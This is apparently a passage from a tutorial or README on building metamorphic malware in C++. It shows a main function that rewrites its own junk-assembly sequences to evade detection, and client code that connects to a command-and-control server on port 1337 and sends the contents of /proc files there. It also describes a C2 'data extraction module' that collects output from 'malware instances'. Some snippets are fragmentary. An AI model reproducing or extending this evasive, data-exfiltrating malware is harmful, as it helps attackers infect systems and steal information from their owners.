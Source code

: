 ### Main  Function 
- Finally we have the main function. This just calls the functions previously described. We read in the code, replace the junk, then write it out again. The `argv[0]` argument contains the application filename.

```cpp
int main(int argc, char* argv[]) {

JUNK_ASM;

// Load this file into memory
uint8_t *file_data = NULL;
uint32_t file_len;

load_file(&file_data, &file_len, argv[0]);

// Replace the existing junk ASM sequences with new ones
replace_junk(file_data, file_len);

free(file_data);
return EXIT_SUCCESS;
```



## The C2 Server 
- The data extraction module (dext) runs on a well defined port (which can be modified at will) and will start an autonomous thread listening for incoming connections by malware instances. Once connected, the module will simply print on the standard output the content of the incoming connection (which are is the information extracted by the client). 

- Connect to the C2 server 
- Read the content of the _/proc_ files 
- Send the content to our c2 server 

### Connect to Command&Control
```cpp
JUNK_ASM;

int c2_fd;

struct hostent * c2_res;
struct sockaddr_in addr;

c2_fd = socket(AF_INET, SOCK_STREAM, 0);
c2_res = gethostbyname("localhost");

addr.sin_family = AF_INET;
memcpy(&addr.sin_addr.s_addr, c2_res->h_addr, c2_res->h_length);
// 0x539 is "1337" in host byte order.
addr.sin_port = htons(0x539);
// Send the content of the files to the C2 server
sys_info(c2_fd);
// Close and die 
close(c2_fd);
```
